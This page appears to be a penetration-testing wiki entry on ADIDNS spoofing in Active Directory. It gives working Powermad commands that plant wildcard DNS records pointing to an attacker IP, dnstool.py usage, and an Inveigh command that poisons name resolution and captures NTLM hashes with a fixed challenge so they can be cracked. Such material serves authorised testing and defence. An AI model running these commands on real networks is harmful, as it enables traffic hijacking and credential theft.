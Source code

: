 # ADIDNS spoofing

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services \(AD-DS\) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS \(ADIDNS\).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a man-in-the-middle and further attacks can be operated.

Since ADIDNS zone DACL \(Discretionary Access Control List\) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with **dynamic updates** \(a DNS specific protocol used by machine accounts to add and update their own DNS records\). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different \(A, AAAA, CNAME, MX, and so on\).
* by **using LDAP** to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be \(only if the record doesn't already exist, which is the case by default\).

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. \([source](https://blog.netspi.com/exploiting-adidns/#wildcard)\)

## Practice

### \(Windows\) Manual record manipulation

On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add/view/edit/enable/disable/remove records. In the following examples, the wildcard \(`*`\) record is targeted but the examples should also work with other records \(except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)\).

{% tabs %}
{% tab title="Get/Read" %}
The following command can be used to get the value populated in the DNSRecord attribute of a node.

```bash
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord
```
{% endtab %}

{% tab title="Add" %}
The following command creates a wildcard record, sets the `DNSRecord` attribute and sets the `DNSTombstoned` attribute, allowing any authenticated user to perform modifications to the node \(this helps maintain control of the node, even when the owner accounts gets deleted. Pretty useful after a pentest\).

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endtab %}

{% tab title="Set/Edit" %}
The `Set-ADIDNSNodeAttribute` function can be used to append, populate, or overwrite values in a DNS node attribute. In this case, the command below can be used to set/overwrite the record's value.

```bash
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose
```
{% endtab %}

{% tab title="Enable" %}
A tombstoned record can be turned again into a valid record with the following command. This should be used in place of `New-ADIDNSNode` when working with nodes that already exist due to being previously added.

```bash
Enable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Disable" %}
A record can be disabled \(i.e. tombstoned\) with the following command. This means the record will still exist but will not be used when resolving names.

```bash
Disable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Remove" %}
The following command can be used to fully remove a record.

```bash
Remove-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Check/Resolve" %}
While `ping` can absolutely be used for the job, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to resolve names \(all DNS spoofing attacks need to be stopped in order to avoid false results\).

```bash
Resolve-DnsName NameThatDoesntExist
```

That command will either return an IP address, indicating that the wildcard record exists \(or that `NameThatDoesntExist` is an actual explicit record\), or return an error stating that the DNS name doesn't exist, indicating that the wildcard record doesn't exist.
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**TL; DR**: the following command will add a new wildcard record \(if it doesn't already exist\) with the attacker IP set in the DNSRecord attribute

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endhint %}

{% hint style="warning" %}
**Warning**: in some environments, the disabling or removal of the records previously created for tests failed. The records were shown as tombstoned or nonexistant when using functions like `Get-ADIDNSNodeOwner`, `Get-ADIDNSNodeAttribute`, and so on. However, the DNS Manager console was still showing those records and name resolution was still effective. It will probably stay an unsolved mystery for me, but testers need to keep this in mind when abusing ADIDNS.
{% endhint %}

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).

### \(UNIX\) Manual record manipulation

A Python alternative to Powermad's functions is [dnstool](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py). Theoretically, this script can be used to `add`, `modify`, `query`, `remove` and `resurrect` records in ADIDNS, however, only `query`, `add`, and `modify` actions were successful during some of my tests.

```bash
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController
```

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\), the following command will 

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns.md)
* operate ADIDNS spoofing
  * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
  * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad. 
  * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` \(to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/)\)

```text
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## References

{% embed url="https://blog.netspi.com/exploiting-adidns/" %}

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://snovvcrash.rocks/2020/12/28/htb-hades.html\#spoofing-active-directory-integrated-dns" %}



